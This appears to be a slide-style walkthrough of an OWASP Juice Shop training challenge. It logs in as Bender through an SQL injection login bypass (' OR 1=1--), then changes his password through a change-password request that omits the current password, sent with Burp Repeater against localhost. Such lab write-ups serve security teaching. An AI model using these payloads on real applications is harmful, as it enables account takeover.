

#
Send the request to Burp Repeater.
Try removing current from the URL, so it looks like:
/rest/user/change-password?new=testpass&repeat=testpass
Send the request — if it returns 200 OK, the flaw exists.
Log in as Bender Using SQL Injection (just to get the token)
Use SQL Injection in the login form (e.g., ' OR 1=1--) with the username set to bender@juice-sh.op to bypass authentication.
Capture the Bearer token from the login response or headers.

Send Exploit Request in Repeater

In Burp Repeater, create a new GET request to:
http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic
Hit Send. If the response is 200 OK and shows Bender’s user object, the password has been successfully changed.